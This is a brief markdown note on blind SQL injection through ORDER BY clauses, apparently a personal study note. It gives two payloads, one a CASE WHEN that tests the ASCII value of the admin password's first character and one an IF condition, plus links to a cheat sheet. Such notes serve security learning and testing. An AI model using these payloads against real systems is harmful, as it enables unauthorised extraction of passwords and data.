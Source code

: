 # sql injection

## order by

you can not use union statement after order by statements[^1], but we can use some
query as condition in order statment.

```
(CASE WHEN (SELECT ASCII(SUBSTRING(password, 1, 1)) FROM users where username = 0x61646D696E) = 65 THEN date ELSE title END)
```

or

```
$IF((SELECT ASCII(SUBSTRING(name, 1,1)) from girls_tbl where name like '%hr%')=99,regdate,name) desc
```

But these statements can only be used on selecting sorting on which column, but not on `asc` or `desc`.

## sql injection

Cheatsheet[^2]

[^1]: http://josephkeeler.com/2009/05/php-security-sql-injection-in-order-by/

[^2]: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
